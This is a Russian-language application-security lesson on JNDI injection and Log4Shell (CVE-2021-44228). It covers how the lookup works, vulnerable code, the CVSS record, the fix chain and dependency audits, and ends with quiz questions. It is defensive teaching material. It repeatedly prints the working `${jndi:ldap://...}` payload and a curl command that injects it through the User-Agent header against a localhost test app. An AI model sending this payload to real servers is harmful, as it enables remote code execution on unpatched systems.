

# JNDI-инъекции и Log4Shell как показательный кейс

В декабре 2021 года администраторы во всём мире провели неделю за одним
вопросом: какая у нас версия log4j. Log4j — библиотека журналирования для
Java, самая ходовая в своём мире. Журналирование — это когда программа
записывает события в журнал: кто вошёл, какой запрос пришёл, что сломалось.
По такому журналу, как по бортовому журналу корабля, потом восстанавливают,
что происходило.

Поводом для той недели стала находка: одна строчка, записанная в журнал,
заставляла сервер ходить по сети и исполнять чужой код. Проверим это руками
до всякой теории. Возьмём приложение, которое журналирует вход пользователя,
и слушатель на порту 1389 — программу, которая печатает факт подключения.
Одну и ту же строку журнала прогоним на двух версиях библиотеки log4j-core.

```text
# log4j-core 2.14.1
ERROR LogDemo - Вход пользователя: ${jndi:ldap://127.0.0.1:1389/Exploit}
# слушатель: ПОДКЛЮЧЕНИЕ от ('127.0.0.1', 41424)

# log4j-core 2.16.0 — та же строка, та же программа
# слушатель: за 20 секунд подключений не было
```

Строка в журнал записалась как текст в обоих случаях. Но уязвимая версия
перед записью выполнила лукап, то есть подстановку: разобрала конструкцию
`${jndi:...}` и пошла по сети к адресу из строки. Слушатель это подключение
увидел. Настоящий
атакующий вместо слушателя поднял бы сервер, который отвечает ссылкой на
класс, и библиотека бы этот класс загрузила и исполнила. Это и есть
Log4Shell, запись CVE-2021-44228; как устроена и чем наполнена такая запись,
разбирает тема `cve-cvss`.

В каталоге слабых мест CWE (Common Weakness Enumeration — классификатор
типовых дефектов, как медицинский справочник болезней) кейс числится под
кодом CWE-917, «внедрение выражения». Главное же в прогоне вот что: одна и
та же строка оказалась данными на одной версии библиотеки и командой на
другой. Код приложения в этом выборе не участвовал. Пока читаете дальше,
держите в голове вопрос: если та же строка придёт не в логине, а в заголовке
`User-Agent`, что покажет слушатель?

## Как это работает

**Откуда это взялось.** Лукап появился в Log4j как подстановка без кода:
пишешь в строку журнала `${sys:user.name}` — и в журнал попадает имя учётной
записи, под которой запущена программа. Работает это как шаблон письма в
почтовой рассылке: «Уважаемый {Имя}, ваш заказ {Номер}» превращается в
письмо, когда рассылка подставляет значения. Только у Log4j источников
значений много: свойства Java, переменные окружения, дата — и среди них
JNDI. Ломается сравнение с письмом в одном месте: рассылка подставляет
только текст, а JNDI-лукап умеет ходить по сети за объектом.

JNDI (Java Naming and Directory Interface) — стандартный интерфейс Java к
службам имён и каталогов. Зачем он нужен: чтобы программа получала готовый
объект по имени, не зная, где тот живёт. Бытовой образ — телефонная книга
компании: вы спрашиваете у неё «бухгалтерия», а она отвечает добавочным
номером. JNDI — такая книга для объектов: программа называет имя, служба
возвращает объект. И книгой может служить удалённая служба на чужой машине.

Одна из служб, с которыми JNDI умеет говорить, —
LDAP (Lightweight Directory Access Protocol), протокол доступа к каталогам; в
нём обычно живут корпоративные учётные записи. Сам протокол как цель
инъекций разобран раньше по маршруту, в теме `ldap-xpath-injection`. Для
кейса важна одна деталь: LDAP-ответ может нести не сам объект, а ссылку, где
лежит класс для этого объекта. JNDI-клиент послушно скачивает класс по ссылке
и загружает его. А загруженный извне
класс исполняется при загрузке — та же родня, что у гаджета из темы
`java-deserialization-gadgets`: ввод выбирает, какой код исполнится.

Соберём цепочку целиком, звеньев в ней четыре. Обработчик журналирует ввод
пользователя. Логер разбирает строку на лукапы. JNDI обращается к LDAP по
адресу из строки и получает ссылку на класс. Класс загружается и исполняется.
Граница доверия сломана в первом же звене: чужой ввод дошёл до
интерпретатора внутри библиотеки. Остальные звенья не ломали ничего — каждый
механизм делал ровно то, что в нём записано.



**Описание схемы.** Схема читается сверху вниз по стрелкам. Атакующий
отправляет строку с лукапом, приложение журналирует её как текст. Log4j
разбирает подстановку и через JNDI идёт на чужой LDAP-сервер. Сервер
возвращает ссылку на класс, и класс исполняется уже внутри приложения.

Заметьте: на схеме нет ни одной сломанной стрелки. Сервер атакующего никого
не обманывает и отвечает по протоколу, а библиотека делает то, для чего её
писали. Каждый участник честно выполнил свой контракт, а в сумме получилось
удалённое исполнение кода. Неверным оказалось предположение, будто журнальная
строка — это данные: для библиотеки она — язык.

## Как это выглядит в коде

Сам дефектный код выглядит невинно — этим кейс и страшен. Попробуйте указать
дефектную строку до разбора в выноске. Планы чтения три: найти, где создаётся
логер; найти, где чужой ввод попадает в сообщение; найти, где здесь разбор
лукапа — спойлер: нигде, он внутри библиотеки.

```java
// УЯЗВИМО при уязвимой версии библиотеки — демонстрация
private static final Logger log = LogManager.getLogger(Demo.class);

public void login(String username) {
    log.error("Вход пользователя: {}", username);  // (1)
}
```

1. Строка из запроса попадает в журнал. Дефект не в этой строке, а в
   версии библиотеки под ней: ревьюер читает код и дерево зависимостей
   вместе.

Разберём идиомы, потому что читатель этой темы Java может не знать. Первая
строка — типовой рецепт: логер один на весь класс, поэтому он статическое
поле. Фабрика `LogManager` выдаёт логер, привязанный к классу `Demo`. Слово
`static` означает «один на класс, а не на каждый объект», а `final` — что
ссылку нельзя переназначить. Вызов
`log.error("Вход пользователя: {}", username)` — параметризованная форма
записи: `{}` — это место в шаблоне, куда библиотека подставит значение
`username`. Форма правильная, но не спасает: разбор лукапов в уязвимых
версиях идёт по итоговому тексту сообщения, уже после подстановки параметра.

Теперь про дерево зависимостей — ревью этого класса дефектов стоит на нём.
Сборщик проекта, в Java это Maven или Gradle, выкачивает не только библиотеки
из вашего списка. Он выкачивает и зависимости этих библиотек, и так дальше
вглубь — так раскручивается дерево. Бытовое сравнение — заказ стола: вместе
со столом приехали винты, которые заказывали не вы, а фабрика. Зависимость,
которую притащил чужой список, называется транзитивной.

Признаки находки в дереве такие. Первый — log4j-core уязвимой версии. Код
лукапов живёт в артефакте core (артефакт — собранный jar-архив библиотеки; у
Log4j их два: api с объявлениями и core с реализацией). Поэтому страница
проекта подчёркивает отдельно: log4j-api без core кейс не составляет. Второй
признак — версии 2.15.0–2.16.x из середины цепочки починок, у них есть
известные добивки. Третий — log4j, приехавший транзитивно через
промежуточную библиотеку. Обратная находка — старый Log4j 1.x: лукапов в нём
нет, но он не поддерживается с 2015 года, и свои кейсы у него есть.

## Как читается запись CVE

Навык чтения записи у вас есть из темы `cve-cvss`; применим его к этой.
Запись лежит в NVD (National Vulnerability Database — государственная база
уязвимостей США, куда стекаются записи CVE) и читается по частям. Описание
называет условие: атакующий, который контролирует строки журнала, заставляет
JNDI загрузить и исполнить класс с чужого LDAP-сервера.

Вектор `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` читается так. AV:N —
вход по сети. AC:L — сложность низкая, не нужны ни тайминг, ни особые
условия. PR:N — прав не нужно. UI:N — участия пользователя не нужно. Эти
четыре части вместе и делают кейс сетевой атакой без условий. S:C — выход за
скоуп: уязвима библиотека, а страдает всё приложение. C:H/I:H/A:H — полный
эффект по конфиденциальности, целостности и доступности. Итоговая оценка —
10.0, максимум шкалы.

Чего у записи нет — точных границ версий и истории починки; это добавляет
страница безопасности проекта. По ней уязвимы версии с 2.0-beta9 по 2.15.0
включительно. Исключений три: выпуск безопасности 2.3.1 для Java 6 и выпуски
2.12.2 и 2.12.3 для ветки Java 7 вышли уже с заплаткой. Эти диапазоны —
рабочий инструмент ревизии: на вопрос «какая у нас версия log4j» отвечают
именно ими. В тот декабрь ответ занимал часы, потому что искали деревом
зависимостей, а не списком прямых зависимостей из файла проекта.

## Как защититься

Правило одно: версия log4j-core — из исправленных веток, и видно это в дереве
зависимостей. Починка шла цепочкой из четырёх версий за две с половиной
недели, и у каждого звена своя запись.

| Версия | Что изменилось | Какая запись закрыта |
|---|---|---|
| 2.15.0 | JNDI-лукапы ограничены по умолчанию | CVE-2021-44228, но с обходом |
| 2.16.0 | подстановка удалена из сообщений журнала | CVE-2021-45046, обход первой починки |
| 2.17.0 | закрыта бесконечная рекурсия лукапов | CVE-2021-45105 |
| 2.17.1 | JNDI-источник в JDBC-аппендере ограничен протоколом java | CVE-2021-44832 |

Два слова о деталях таблицы. «Обход первой починки» — это конфигурации не по
умолчанию, где разработчик сам вписал лукап в шаблон сообщения: ограничение
версии 2.15.0 их не касалось. Аппендер — приёмник записей журнала у Log4j:
консоль, файл, база данных; у JDBC-аппендера, пишущего записи в базу,
оказался свой JNDI-источник данных. Поэтому ревизия смотрит на конец
цепочки, 2.17.x, а не на её начало.

Второй слой защиты — вход: журналируемый ввод не должен нести управляющих
конструкций библиотеки, например `${...}`. Это мера в глубину, второй рубеж
на случай, если первый пробьют, как сейф внутри запертой комнаты. У
обновлённой Log4j лукапа в сообщениях нет, а у завтрашней уязвимости другого
логера — может оказаться.

**Когда канон не подходит.** Обновление библиотеки в корпоративном монолите
занимает недели, а окно между публикацией записи и обновлением закрывать
надо. Исторические меры того декабря существовали ровно для этого окна:
системное свойство, отключающее подстановку (флаг, переданный программе при
запуске), и снятие класса лукапа из архива библиотеки. Третий ответ на окно —
изоляция сервиса и фильтрация его исходящих соединений: лукап без сети
остаётся текстом.

## Как убедиться, что защита работает

Защиту испытывают тем же входом, что и атаку: версия, которой нечего
отклонить, ничего не доказывает. Тема открылась ровно таким испытанием. На
log4j-core 2.16.0 та же строка `${jndi:...}` за 20 секунд не вызвала ни
одного подключения к слушателю. Повторный прогон после обновления и есть
проверка фикса: строка записалась в журнал, а подключения не было.

Вторая проверка — ревизия дерева зависимостей, и делается она целиком, а не
по прямым зависимостям. Команды сборщика печатают дерево со всеми
транзитивными этажами:

```bash
mvn dependency:tree     # Maven
gradle dependencies     # Gradle
```

Каждое вхождение log4j-core из вывода сверяется с диапазонами на странице
проекта, а не с памятью ревьюера. На ревью пройдите по списку.

1. Проверьте, что версия log4j-core в дереве зависимостей не попадает в
   уязвимые диапазоны записи CVE-2021-44228 (CWE-917).
2. Проверьте, что log4j не приехал транзитивно через промежуточную
   библиотеку: дерево смотрится целиком, а не прямые зависимости.
3. Проверьте, что применённая версия — из конца цепочки починок, а не из
   её начала.
4. Проверьте, что журналируемый ввод не несёт конструкций `${...}` — мера
   в глубину на будущие лукапы.
5. Проверьте, что исходящие соединения сервиса ограничены сетевым
   периметром: лукап куда попало не пройдёт.
6. Проверьте, что в записи ревизии зафиксированы и версия библиотеки, и
   источник сверки диапазонов (навык из темы `cve-cvss`).

**Зачем это в работе AppSec-инженера.** Это эталонный кейс сразу трёх
дисциплин: чтения записи CVE, ревизии дерева зависимостей и ревью кода,
журналирующего чужой ввод. Все три навыка переносятся на следующий такой
кейс, а он будет: класс «библиотека разбирает чужой ввод как язык» одной
Log4j не закрыт.

## Частая ошибка

Встречается рассуждение: «мы обновились на 2.15.0, первую исправленную
версию, значит, мы закрыты». Найдите слабое место в нём до чтения разбора.

Первая исправленная версия — не точка, а начало цепочки. Версия 2.15.0
ограничила лукапы по умолчанию, и уже через несколько дней запись
CVE-2021-45046 показала обход в конфигурациях не по умолчанию. У каждой
следующей записи своё «исправлено в», поэтому страница проекта читается
диапазонами, до конца цепочки.

Контрпример — сама хронология: версии 2.15.0, 2.16.0 и 2.17.0 вышли за
девять дней, а 2.17.1 — ещё через десять. Ревизия, остановившаяся на первом
номере, трижды оставалась позади.

## Попробуй сам

Возьмите свой Java-проект или чужой открытый и найдите в нём log4j-core.
Искать можно тремя способами: деревом зависимостей сборщика, поиском по имени
архива в кеше библиотек, поиском класса в собранном артефакте. Найденное
сверьте с диапазонами на странице безопасности проекта. Одна подсказка:
уязвима именно log4j-core, и присутствие одного log4j-api без core кейс не
составляет — это написано на странице проекта явно.

**Критерий выполнения** наблюдаемый: список «где встретился log4j-core —
какая версия — вне диапазона или внутри», включая транзитивные вхождения.

## Проверь себя

1. Та же программа на log4j-core 2.14.1, но вход приходит не в логине,
   а в заголовке — приложение журналирует User-Agent тем же вызовом:

   ```bash
   curl -A '${jndi:ldap://127.0.0.1:1389/Exploit}' \
     http://127.0.0.1:8080/login
   ```

   Предскажите, что увидит слушатель на порту 1389.

2. Ревизия нашла log4j-core 2.14.1 в дереве. Выберите починку.

   A. Обновиться до 2.15.0 — первой исправленной версии.

   B. Обновиться до конца цепочки починок и ограничить исходящие
      соединения сервиса.

   C. Остаться на 2.14.1 и отклонять вход, где встречается `${`.

3. Почему ревизия читается по дереву зависимостей целиком, а не по
   списку прямых?

4. В выводе дерева зависимостей виден фрагмент:

   ```text
   +- com.acme:legacy-reports:jar:1.3
   |  \- org.apache.logging.log4j:log4j-core:jar:2.14.1
   ```

   Прямых зависимостей на log4j в проекте нет. Ваш вердикт?

5. Возврат к теме `java-deserialization-gadgets`: чем загрузка класса по
   сети родственна разбору чужого потока?

6. Возврат к теме `cve-cvss`: вектор записи —
   CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H. Какие четыре его части
   делают кейс сетевой атакой без условий?

<details markdown="1">
<summary>Ответ 1</summary>

1. Подключение. Лукапу всё равно, из какого поля пришла строка: на
   уязвимой версии она разбирается при записи в журнал, а User-Agent
   журналируется тем же вызовом. Прогон из введения с другим входом:

   ```text
   $ curl -A '${jndi:ldap://127.0.0.1:1389/Exploit}' \
       http://127.0.0.1:8080/login
   слушатель: ПОДКЛЮЧЕНИЕ от ('127.0.0.1', 58186)
   ```

</details>

<details markdown="1">
<summary>Ответ 2: разбор вариантов</summary>

2. Верно: B.

   A. Первая исправленная версия — начало цепочки, а не её конец:
      2.15.0 ограничила лукапы по умолчанию, а обход в конфигурациях не по
      умолчанию (CVE-2021-45046) закрыла 2.16.0. Это заблуждение из раздела
      «Частая ошибка».

   B. Верно. Версия из конца цепочки (2.17.x) закрывает и найденные
      следом обходы, а периметр исходящих соединений превращает завтрашний
      лукап в текст: без сети ему нечего загружать.

   C. Фильтр `${` не меняет библиотеку: лукапы в ней остались, и обход
      строкового фильтра — вопрос второй формы записи. В разделе о защите
      такой контроль назван мерой в глубину, а не починкой.

</details>

<details markdown="1">
<summary>Ответ 3</summary>

3. Потому что уязвимая библиотека чаще приезжает транзитивно, через
   промежуточную зависимость; прямой список её не показывает. В декабре
   2021 ответ «какая у нас версия log4j» давало именно дерево.

</details>

<details markdown="1">
<summary>Ответ 4</summary>

4. Кейс есть: log4j-core приехал транзитивно через legacy-reports, и
   версия 2.14.1 — внутри уязвимого диапазона записи (с 2.0-beta9 по
   2.15.0). Отсутствие прямой зависимости ничего не закрывает; заметьте
   и обратное: log4j-api без log4j-core кейса бы не составило.

</details>

<details markdown="1">
<summary>Ответ 5</summary>

5. Обе доверяют вводу рецепт восстановления или загрузки кода: ввод
   выбирает, какой класс исполнится. Разница в точке входа: поток байт
   против строки текста.

</details>

<details markdown="1">
<summary>Ответ 6</summary>

6. AV:N — сеть, AC:L — низкая сложность, PR:N — без прав, UI:N — без
   участия пользователя; вектор записан в записи CVE в NVD.

</details>

## Источники

1. Security, Apache Logging Services; реестр `log4j-security`. Разделы:
   записи CVE-2021-44228, CVE-2021-45046, CVE-2021-45105 и
   CVE-2021-44832: диапазоны уязвимых и исправленных версий, условия и
   митигации; примечание о log4j-api без log4j-core и о Log4j 1.
   <https://logging.apache.org/security.html>
2. CVE-2021-44228, запись NVD; реестр `nvd-cve-2021-44228`. Разделы:
   описание (лукапы в сообщениях и параметрах, исполнение класса с
   LDAP-сервера), вектор CVSS 3.1 и оценка 10.0, ссылки CWE.
   <https://nvd.nist.gov/vuln/detail/CVE-2021-44228>

Каркас этапа: у этапа 7 общих унаследованных источников нет; каждая тема
опирается на документацию своего языка и на материалы этапа 1 по
классам дефектов.

**Скоропортящийся слой.** Диапазоны версий и цепочка починок зафиксированы
и стабильны как история; скоропортящееся здесь — список смежных CVE на
странице проекта, который растёт, и состояние веток Log4j 1. При ревизии
перечитывается страница Apache Logging целиком.

**Маркеры уверенности.** **Проверено лично** 2026-09-02 на OpenJDK
17.0.20.1: программа с log4j-core 2.14.1 и строкой
`${jndi:ldap://127.0.0.1:1389/Exploit}` вызвала подключение к слушателю
(порт 1389, локальный TCP-приёмник), а та же программа с log4j-core
2.16.0 — нет (за 20 секунд подключений не было). Полная цепочка с
загрузкой чужого класса не воспроизводилась: это потребовало бы
LDAP-сервера с reference-ответом; показан исходящий лукап — первое звено
цепочки. Диапазоны версий, цепочка починок и состав CVE — **по странице
Apache Logging**, открытой лично 2026-09-02. Вектор CVSS и описание — по
записи NVD: веб-страница отвечает автоматическому клиенту JS-проверкой,
содержание сверено через официальный API NVD в тот же день.
